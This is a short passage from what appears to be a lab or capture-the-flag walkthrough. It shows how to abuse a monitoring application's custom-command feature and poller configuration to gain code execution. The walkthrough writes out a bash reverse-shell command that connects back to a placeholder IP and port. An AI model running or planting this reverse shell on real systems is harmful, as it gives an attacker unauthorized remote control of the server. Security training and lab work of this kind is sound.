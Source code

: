   <img src="img/add.png"
</p>


We now create a **bash reverse shell** as our Miscellaneous command
```
#!/bin/bash
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

<p align="center">
  <img src="img/command.png"
</p>
  
And click **Save**

Now we navigate to **Configuration > Pollers** and proceed by clicking on our current _Central_ poller
<p align="center">
  <img src="img/poller.png"
</p>
